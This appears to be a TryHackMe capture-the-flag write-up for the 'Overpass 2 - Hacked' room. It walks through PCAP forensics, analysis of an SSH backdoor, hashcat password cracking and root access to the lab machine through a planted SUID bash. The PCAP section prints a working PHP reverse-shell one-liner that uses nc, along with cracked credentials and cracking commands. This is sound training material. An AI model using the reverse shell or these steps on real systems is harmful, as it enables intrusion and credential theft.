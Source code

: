 ```yaml
---
Platform: TryHackMe
Difficulty: Easy
Status: Rooted/Finished
Type: Machine
Title: Overpass 2 - Hacked
Category: 
tags: 
CreatedOn: 04-12-2023
---
```

# Overpass 2 - Hacked

In this writeup we are going to solve the Overpass 2 - Hacked room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

  

Lets Start……

  

## Task 1

First Download the Task files given. The given task file is a [PCAP](https://www.solarwinds.com/resources/it-glossary/pcap) file. Open the given pcap file in wireshark.

If we take a look at the traffic, we can see that there is a POST request to `/development/upload.php`.

![[Overpass 2 - Hacked/assets/Untitled.png|Untitled.png]]

Right click on that particular row and follow the TCP stream to see more details about that POST request.

`Right Click → Follow → TCP Stream` ( or ) Select the column and press `ctrl + alt + shift + T` to view the TCP Stream.

![[Overpass 2 - Hacked/assets/Untitled 1.png|Untitled 1.png]]

In the TCP stream we can see that the attacker have uploaded a file named `payload.php` which has the following PHP reverse shell code:

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

Further investigating, If we follow the TCP stream of the packet no 29, we see the password that the attacker used for the user james: `whenevernoteartinstant`.

![[Overpass 2 - Hacked/assets/Untitled 2.png|Untitled 2.png]]

![[Overpass 2 - Hacked/assets/Untitled 3.png|Untitled 3.png]]

And if we scroll down, we can see that the attacker is downloading a ssh-backdoor from `[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)`

![[Overpass 2 - Hacked/assets/Untitled 4.png|Untitled 4.png]]

We can also see that the attacker has also viewed the `/etc/shadow` file.

![[Overpass 2 - Hacked/assets/Untitled 5.png|Untitled 5.png]]

I tried to crack these passwords with the [fasttrack.txt](https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt) word-list. I used hashcat for cracking the passwords.

Command: `hashcat -m 1800` `**hash.txt**` `**./fasttrack.txt**`

I was able to crack the passwords for 4 users:

`paradox: secuirty3`

`szymex: abcd123`

`bee: secret12`

`muirland: 1qaz2wsx`

We have find the answers for all the questions that were asked for the Task 1.

![[Overpass 2 - Hacked/assets/Untitled 6.png|Untitled 6.png]]

Moving on to Task 2

## Task 2

Now we have to analyse the code of the backdoor that we found in the last task. So first I downloaded the source code from [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor), using the following command

`git clone https://github.com/NinjaJc01/ssh-backdoor.git`

![[Overpass 2 - Hacked/assets/Untitled 7.png|Untitled 7.png]]

After downloading I opened the downloaded `ssh-backdoor` folder in VScode. If we take a look at the `main.go` file, we can see a variable `hash` with a value of `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` which is the default hash used by this backdoor.

![[Overpass 2 - Hacked/assets/Untitled 8.png|Untitled 8.png]]

From the main function we can devise that the backdoor is running on port `2222`.

![[Overpass 2 - Hacked/assets/Untitled 9.png|Untitled 9.png]]

Further, if we scroll down, we can see that the backdoor requires a hash for creating backdoor as a parameter with a flag `-a` . If the hash is not given as a parameter then it uses the default hash value that we found above.

![[Overpass 2 - Hacked/assets/Untitled 10.png|Untitled 10.png]]

If we take a look at the TCP stream where we found the backdoor in the last task, we can see that the attacker has given a hash as parameter while he was executing the backdoor. The hash that the attacker used is: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

![[Overpass 2 - Hacked/assets/Untitled 11.png|Untitled 11.png]]

On further investigating, if we take a look at the function `passwordHandler` , we can see that the backdoor uses a salt `1c362db832f3f864c8c2fe05f2002a05` to create the password.

![[Overpass 2 - Hacked/assets/Untitled 12.png|Untitled 12.png]]

Now we can crack the hash that the attacker given as a parameter to create the backdoor password using the salt to find the password.

The command to crack the password is :

`hashcat -m 1710 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 /usr/share/wordlists/rockyou.txt --force -O -w 4`

![[Overpass 2 - Hacked/assets/Untitled 13.png|Untitled 13.png]]

We have cracked the hash and the password is `november16` .

We have find the answers for all the questions that were asked for the Task 2.

![[Overpass 2 - Hacked/assets/Untitled 14.png|Untitled 14.png]]

Moving on to Task 3.

## Task 3

First start the machine. Wait for 5 minutes and give the machine time to start all the services.

After 5 minutes, run a standard nmap scan.

Command: `nmap -A -T4 -v <targetIP>`

![[Overpass 2 - Hacked/assets/Untitled 15.png|Untitled 15.png]]

We can see that there is web-server running on port `80` and the backdoor is running on port `2222`.

If we check the web-server that is running on port `80`, we can see the message `**H4ck3d by CooctusClan**`. Apart from the message there is nothing interesting in the website.

![[Overpass 2 - Hacked/assets/Untitled 16.png|Untitled 16.png]]

Next we can use the backdoor to get access to the target machine.

Command: `ssh james@<target_IP> -p 2222 -oHostKeyAlgorithms=+ssh-rsa`

Use the password that we found in the last task: “november16”

![[Overpass 2 - Hacked/assets/Untitled 17.png|Untitled 17.png]]

Now we got access to the target machine. Now if we check the user directory we can find the user flag.

![[Overpass 2 - Hacked/assets/Untitled 18.png|Untitled 18.png]]

Now we have to find the root flag. According to the hint we have to check whether attacker had left a way to escalate our privileges. So I started to surf through all the directories.

![[Overpass 2 - Hacked/assets/Untitled 19.png|Untitled 19.png]]

In the home directory I found something interesting.

![[Overpass 2 - Hacked/assets/Untitled 20.png|Untitled 20.png]]

It has a `.suid_bash` file. I searched [gtfobins](https://gtfobins.github.io/) for “bash SUID” and found this [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid).

![[Overpass 2 - Hacked/assets/Untitled 21.png|Untitled 21.png]]

According to the above explanation, if we execute this `.suid_bash` file with a flag `-p`, we will get back a shell with root privileges.

![[Overpass 2 - Hacked/assets/Untitled 22.png|Untitled 22.png]]

After executing the command: `./.suid_bash -p` , I got back a shell with root privileges.

Now I checked the `/root` directory.

![[Overpass 2 - Hacked/assets/Untitled 23.png|Untitled 23.png]]

We successfully got the root flag.

We have find the answers for all the questions that were asked for the Task 3.

![[Overpass 2 - Hacked/assets/Untitled 24.png|Untitled 24.png]]

  

Thankyou………….